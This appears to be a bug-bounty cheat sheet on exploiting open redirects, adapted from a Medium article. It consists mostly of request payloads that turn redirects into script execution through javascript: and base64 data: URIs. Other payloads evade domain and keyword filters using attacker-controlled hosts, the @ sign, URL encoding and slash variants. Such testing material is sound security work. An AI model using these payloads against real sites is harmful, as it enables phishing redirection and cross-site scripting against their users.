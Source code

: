 ### Description

Here are some techniques which can be helpful when exploiting the case of an open redirect (OR). Thanks to: bobrov, filedescriptor, cujanovic, securityidiots
This is a handy version of my article on Medium ([Link](https://medium.com/bugbountywriteup/cvv-2-open-redirect-213555765607)).

### Techniques
**[1] JavaScript Execution**  
Converting an open-redirect to Cross-Site-Scripting by using different URI-schemes
```
GET file.php?url=javascript:alert(1)
---
GET file.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4NCg==
```
**[2] Bypassing keyword filtering**  
By using the legitimate domain as part of the URL (e.g. as subdomain)
```
GET file.php?url=victim.com.attacker.com
```
By using the `@` sign to request a login, redirecting to the attacker-controlled domain
```
GET file.php?url=victim.com@attacker.com
```
By creating a folder named like the legitimate domain (this also can be useful if an extension is required; second example)
```
GET file.php?url=attacker.com/victim.com
---
GET file.php?url=attacker.com/.jpg
```

**[3] Bypassing blacklisted keywords**  
Most filters can be bypassed by using a double- or triple-URL encoded version of the blacklisted char/keyword. Otherwise:
Use `  。` (a Chinese separator) to bypass dot-filtering
```
GET file.php?url=https://attacker%E3%80%82com
```
Use slashes to bypass `http/https` keyword-filtering
```
GET file.php?url=//attacker.com
---
GET file.php?url=\/\/attacker.com
```
Avoid slash-filtering by avoiding them in the URL too (this is valid and will be resolved)
```
GET file.php?url=https:attacker.com
```
